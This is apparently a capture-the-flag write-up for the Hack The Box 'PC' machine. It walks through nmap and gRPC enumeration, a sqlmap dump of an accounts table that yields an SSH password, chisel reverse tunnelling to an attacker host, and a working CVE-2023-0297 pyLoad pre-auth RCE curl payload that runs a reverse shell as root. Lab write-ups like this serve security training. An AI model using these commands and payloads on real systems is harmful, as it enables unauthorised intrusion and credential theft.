## Enumeration
### NMAP

```bash
nmap -sC -sV -v -T4 -oN scans/nmap.txt pc.htb
```

```text
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 91:bf:44:ed:ea:1e:32:24:30:1f:53:2c:ea:71:e5:ef (RSA)
|   256 84:86:a6:e2:04:ab:df:f7:1d:45:6c:cf:39:58:09:de (ECDSA)
|_  256 1a:a8:95:72:51:5e:8e:3c:f1:80:f5:42:fd:0a:28:1c (ED25519)
50051/tcp open  unknown
```

## User

### Website

Appears to be some form of web server running on port `50051`.



### gRPC

After some research, looks like port `50051` is used for gRPC.

```shell
wget https://github.com/fullstorydev/grpcui/releases/download/v1.3.1/grpcui_1.3.1_linux_arm64.tar.gz
tar -xvf grpcui_1.3.1_linux_arm64.tar.gz
sudo mv grpcui /bin
```

```shell
grpcui -plaintext pc.htb:50051
```

It loads up a web UI which we can use to interact with the gRPC server. First thing I did was try using the `RegisterUser` method, but it didn't end up working. I eventually moved to the `LoginUser` method trying a few basic usernames and passwords, `admin:admin` seemed to work.



Once I had the `id` and `token`, tried using this in the `getInfo` method but it didn't get anywhere.



I moved over the Burp to make a copy of the request and see if the gRPC endpoint was vulnerable to SQL injection. I made a copy of the request to a file so I can use it with `sqlmap`.


### SQLi

I used `sqlmap` to find any injection. I first tried enumerating databases and then tables. Found the `accounts` table and then dumped the contents.

```
sqlmap -r rpc.req -T accounts --dump --batch
```



And here we get a password for user `sau`.

```text
sau:HereIsYourPassWord1431
```

We can use his credentials to login via SSH.



If we run `linpeas` we can see that there's a process running in port `3000`.



If we investigate further, we can determine that it's a web server.



We can't access the website since it's running locally, but if we use `chisel` we can tunnel into the targets internal network.

```shell
# LHOST
sudo ./chisel_arm server-p 9999 --reverse

# RHOST
chmod +x chisel
./chisel client 10.10.16.5:9999 R:socks
```



Using `foxyproxy` in Firefox, we can add a `socks5` proxy to link up with `chisel`.



We are now able to load the website on port `8000`.



After 5 seconds of research, we can find a quite recent vulnerability for `pyLoad`.

I recently setup this Kali VM so I need to configure `proxychains` with `socks5`. If we head to the `/etc/proxychains4.conf` file, we can change it from `socks4` and the port its pointing to.



The first exploit that shows up is https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad.

We first need to modify the command slightly to suit our situation. If we create a file on the target called `shell.sh` and we just put a simple reverse shell in it.

```shell
proxychains curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"/tmp/shell.sh");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://localhost:8000/flash/addcrypted2'
```

If we start a reverse listener with `netcat` and execute our command through `proxychains` we should get a shell as `root`.



